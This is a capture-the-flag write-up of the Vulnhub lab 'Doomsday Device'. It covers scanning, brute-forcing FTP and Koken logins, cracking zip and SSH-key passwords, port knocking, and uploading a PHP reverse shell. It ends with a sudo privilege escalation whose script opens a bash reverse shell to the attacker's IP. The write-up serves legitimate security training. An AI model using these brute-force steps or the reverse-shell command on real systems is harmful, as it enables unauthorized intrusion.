Doomsday Device Writeup [Vulnhub]
Doomsday Device is a CTF like machine themed on “The Office” where we will have to recollect all the flags until we get root user, since it’s a CTF like machine I will structure this writeup based on the flags rather than the phases as I usually do. First we use arp-scan to find the IP of the machine on our network.

We see that the machine is the 192.168.56.11, so we use nmap to find the open ports and then make a deeper scan on those ports.
nmap -p- -Pn -n -T 4 192.168.56.11
nmap -sC -sV -p 21,22,80,18888,65533, -Pn -o scan.txt 192.168.56.11
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
22/tcp filtered ssh
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/nothingtoseehere
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
18888/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Koken 0.22.24
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Dunder Mifflin
65533/tcp open http Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
Service Info: Host: 127.0.1.1; OS: Unix
We see ftp running, ssh filtered, and 3 webpages on port 80, 18888, and 65533.
Flag 1
We check the wepage on port 80.
There isn’t anything relevant, but if we check the source code we find something weird at the very bottom (easier to find if you request the page with crul).
Li0tLSAuLiAtLSAvIC4tIC0uIC0uLiAvIC4tLS4gLi0gLS0gLyAuLi4uIC4tIC4uLi0gLiAvIC0gLi0gLi0uLiAtLi0gLiAtLi4gLyAuLSAtLi4uIC0tLSAuLi0gLSAvIC0tIC4gLyAuLiAtLiAvIC0tIC0tLSAuLS4gLi4uIC4gLyAtLi0uIC0tLSAtLi4gLiAvIC4uLiAuIC4uLi0gLiAuLS4gLi0gLi0uLiAvIC0gLi4gLS0gLiAuLi4gLi0uLS4tIC8gLS4uLiAuLi0gLSAvIC4tLS0gLS0tIC0uLSAuIC4tLS0tLiAuLi4gLyAtLS0gLS4gLyAtIC4uLi4gLiAtLSAvIC0uLi4gLiAtLi0uIC4tIC4uLSAuLi4gLiAvIC4uIC8gLS4tIC0uIC0tLSAuLS0gLyAtLSAtLS0gLi0uIC4uLiAuIC8gLS4tLiAtLS0gLS4uIC4gLi0uLS4tIC8gLi4uIC4uIC0uIC0uLS4gLiAvIC0uLS0gLS0tIC4uLSAvIC0uLS4gLS0tIC4uLSAuLS4uIC0uLiAvIC4tLiAuIC4tIC0uLiAvIC0gLi4uLiAuLiAuLi4gLyAuLiAvIC4tIC4uLiAuLi4gLi4tIC0tIC4gLyAtLi0tIC0tLSAuLi0gLyAtLi0gLS4gLS0tIC4tLSAvIC4uIC0gLyAtIC0tLSAtLS0gLi0uLS4tIC8gLi0gLS4gLS4tLSAuLS0gLi0gLS4tLSAuLi4gLyAtIC4uLi4gLi4gLi4uIC8gLi4gLi4uIC8gLi0tLSAuLi0gLi4uIC0gLyAtIC4uLi4gLiAvIC4uLS4gLi4gLi0uIC4uLiAtIC8gLi4tLiAuLS4uIC4tIC0tLiAtLS4uLS0gLyAtLi0tIC0tLSAuLi0gLyAuLS0gLi4gLi0uLiAuLS4uIC8gLS4gLiAuLi4tIC4gLi0uIC8gLS4tLiAuLS4gLi0gLS4tLiAtLi0gLyAtLSAtLi0tIC8gLi4gLS4gLS0uIC4gLS4gLi4gLS0tIC4uLSAuLi4gLyAtLSAuLSAtLi0uIC4uLi4gLi4gLS4gLiAtLS4uLS0gLyAtLi4gLS0tIC0uIC4tLS0tLiAtIC8gLi4tLiAtLS0gLi0uIC0tLiAuIC0gLyAuLiAvIC4tIC0tIC8gLS4uLiAuIC0gLSAuIC4tLiAvIC0gLi4uLiAuLSAtLiAvIC0uLS0gLS0tIC4uLSAvIC4uLi4gLi0gLi4uLSAuIC8gLiAuLi4tIC4gLi0uIC8gLS4uLiAuIC4gLS4gLyAtLS0gLi0uIC8gLiAuLi4tIC4gLi0uIC8gLi0tIC4uIC4tLi4gLi0uLiAvIC0uLi4gLiAtLi0uLS0gLyAtLi4gLi0tIC4uIC0tLiAuLi4uIC0gLyAuLi0uIC4tLi4gLi0gLS0uIC4tLS0tIC0tLS4uLiAvIC0tLS4uIC0uLS4gLi0gLi4tLiAtLS0tLiAtLi0uIC0uLi4uIC4uLi4tIC4uLS4gLS0tLS4gLS4uIC4tLS0tIC4tLS0tIC0tLS4uIC4tLS0tIC4uLS0tIC0tLS0tIC0uLi4uIC4uLS4gLiAtLi0uIC0tLi4uIC4uLS4gLi4uLi0gLS0tLS0gLi0gLS0uLi4gLi4uLi4gLi4tLS0gLi4uLi0gLS4uLiAuLi4tLQ==
That’s some text base 64 encoded, so we decode it:
.--- .. -- / .- -. -.. / .--. .- -- / .... .- ...- . / - .- .-.. -.- . -.. / .- -... --- ..- - / -- . / .. -. / -- --- .-. ... . / -.-. --- -.. . / ... . ...- . .-. .- .-.. / - .. -- . ... .-.-.- / -... ..- - / .--- --- -.- . .----. ... / --- -. / - .... . -- / -... . -.-. .- ..- ... . / .. / -.- -. --- .-- / -- --- .-. ... . / -.-. --- -.. . .-.-.- / ... .. -. -.-. . / -.-- --- ..- / -.-. --- ..- .-.. -.. / .-. . .- -.. / - .... .. ... / .. / .- ... ... ..- -- . / -.-- --- ..- / -.- -. --- .-- / .. - / - --- --- .-.-.- / .- -. -.-- .-- .- -.-- ... / - .... .. ... / .. ... / .--- ..- ... - / - .... . / ..-. .. .-. ... - / ..-. .-.. .- --. --..-- / -.-- --- ..- / .-- .. .-.. .-.. / -. . ...- . .-. / -.-. .-. .- -.-. -.- / -- -.-- / .. -. --. . -. .. --- ..- ... / -- .- -.-. .... .. -. . --..-- / -.. --- -. .----. - / ..-. --- .-. --. . - / .. / .- -- / -... . - - . .-. / - .... .- -. / -.-- --- ..- / .... .- ...- . / . ...- . .-. / -... . . -. / --- .-. / . ...- . .-. / .-- .. .-.. .-.. / -... . -.-.-- / -.. .-- .. --. .... - / ..-. .-.. .- --. .---- ---... / ---.. -.-. .- ..-. ----. -.-. -.... ....- ..-. ----. -.. .---- .---- ---.. .---- ..--- ----- -.... ..-. . -.-. --... ..-. ....- ----- .- --... ..... ..--- ....- -... ...--
This looks like morse code, so we search for any decoder online and decode it to: YOU COULD READ THIS I ASSUME YOU KNOW IT TOO. ANYWAYS THIS IS JUST THE FIRST FLAG, YOU WILL NEVER CRACK MY INGENIOUS MACHINE, DON'T FORGET I AM BETTER THAN YOU HAVE EVER BEEN OR EVER WILL BE! DWIGHT FLAG1: 8CAF9C64F9D1181206FEC7F40A7524B3
Flag 2
Using feroxbuster on the site on port 65533 we find the secret directory, so we open it.

Flag 3
Using feroxbuster with small list on the page on port 80 we find some directories.

First we go to “staffblog”, and find a file called CreedThoughts.doc so we download it and find the flag at the of the file.

Flag 4
Feroxbuster found another directory, “nick”, so let’s check it.

Farewell.txt contains a letter to Michael where it explains that he is going out of the company and that there is people using weak passwords, there is also a .pcap file, so we download it and open with wireshark, we see that it contains a FTP communication.

There we find some creds for the ftp service, but if we try them we won’t be able to get in, the reason for it is on the file where we found the third flag, “The IT guy told that my password is not safe enough. I wonder how he found out. Anyways, I added 3 digits to the end so it’s supersafe now.”, so we know that the password now contains 3 digits at the end, so we generate a wordlist of all 3 numbers combinations with crunch, and use sed to append “creed” at the start of it:
crunch 3 3 1234567890 > numbers
sed -i 's/^/creed/' numbers
Now that we have a wordlist we use hydra to bruteforce the FTP service.

The password of creed is “creed223”, now we can access to the FTP.

There are two files, “archive.zip” and “reminder.txt”, so let’s download and check them, we read “reminder.txt” and find the fourth flag.
Oh snap, I forgot the password for this zip file. I remember, it made Michael laugh when he heard it,
but Pam got really offended.
#FLAG4: 4955cbee5a6a5a48ce79624932bd1374
Flag 5
Now we need to find out the password of the zip file, probably people who have seen “The Office” had an idea of what the password is, I haven’t, so I just can hope google will give me the answer… After feeling dumb for a while, copying and pasting the text that is given to us I found this page where the quote that we are looking for is “Big Boobs”, we can’t say for sure that that is the password, so to play safe I generated a wordlist with exrex playing with some common changes exrex "(B|b)(ig)( |)(B|b)(oob)(s|z)" > pwdlist.txt, and then using fcrackzip to crack the file (also you could use zip2john and john to do it):

We find that the password is “bigboobz”, we get two files, michael, which looks like a ssh key (let’s remember that ssh is filtered so we can’t use it right now), and email, which contains the next message:
Angela is out sick so she couldn't manage the costume party gallery right now. Dwight showed up
as a jamaican zombie woman AGAIN. It's gross. Please remove the picture from the gallery. Oh yeah,
you don't have access to it, so just use Angela's profile. The password is most probably one of her
cats name.
Now it’s time to go to the page on port 18888.

We find the email of Angela, “angela@dundermifflin.com”, now let’s go to the wiki to get a list of all of her cats, then we go to /admin, to find the login page of koken.

Since the list is short we can user burp Intruder to bruteforce the page, we load the file with the list of the cats names and start the attack.

We get a different response with “Crinklepuss”, so now we can access to the admin panel. Using searchsploit we find that there is a vulnerability on Koken which allows us to upload a php file and get code execution, this is due the controls for uploading files are only made on the fronted, se let’s upload a reverse shell, execute it and we get a shell in the machine.

Looking for some configuration files we find /var/www/koken/storage/configuration/database.php, where we find credentials for the database, kokenuser, Toby!Flenderson444, we access to the databases and see a table called “flag”, we get its content and find the fifth flag.

Flag 6
Checking the directories of the other pages we see the directory “_hint_” inside /var/www/html, so we open it with the browser.
The page tells us to find the difference between the pictures, also those pictures are about a knock knock joke, maybe we are in a case of port knocking? Going back to the difference let’s see if they are different in size.

The second image is smaller, so let’s download it and check its metadata, there we found the sixth flag.

Flag 7
In the metadata of the picture there wasn’t only the flag, but also the message “Open sesame: 5000, 7000, 9000”, we might guess that these are the ports set for port knocking, so let’s try knock them, but what will be opened after that?, if we remember ssh was filtered, so let’s see if its state changes.

SSH if opened now, we got a SSH key earlier so it’s time to use it, but first we have to get its password, so let’s use ssh2john and john to crack the password.

The password is “mypassword1234”, with that we can access through ssh to the machine.

We are inside the machine, but we are in a restricted shell so let’s try to get a normal shell, we get out of the shell and execute, ssh -i michael michael@192.168.56.11 -t "bash", the t parameter force the machine to give us a tty, and bash is a command that will be executed as soon as we get into the machine.

Now we have a normal shell, so checking the files inside michael’s home directory we find the seventh flag.

Root Flag
First we test if we can execute any command with sudo.

We see that we can execute as root any file inside /home/creed that starts with “defuse”, but if we check that directory we see that there isn’t any file inside with that name, and we don’t have writing permissions on in to create a file. We have seen these files before, they are the ones available through FTP, if we go back to the service we see that we can upload files, but then there is another problem, the files uploaded through FTP doesn’t have execution permissions, going back to enumerate the system we find out that the FTP configuration file can be modified by anyone.

We open it and see at the end that “chmod_enable” is set to NO, so we just need to modify it to YES, and here is another issue, the new config file isn’t loaded until the service is restarted, and none of the users to whom we have access can restart the service or restart the machine, so we can’t do more until them, we reboot the virtual machine manually (this would be like assuming that in the real world the machine is eventually restarted). Now we prepare a file called “debug”, with a reverse shell command.
#!/bin/bash
bash -i >& /dev/tcp/192.168.56.130/54321 0>&1
Then we connect through FTP, upload it and give it execution permissions.

We can see the file reflected on creed’s home directory.

Finally we execute the file with sudo and get a shell as root.

It doesn’t make to happy to have to reboot the machine manually, so probably that is not the intended way, hope to see a writeup that gets it without that.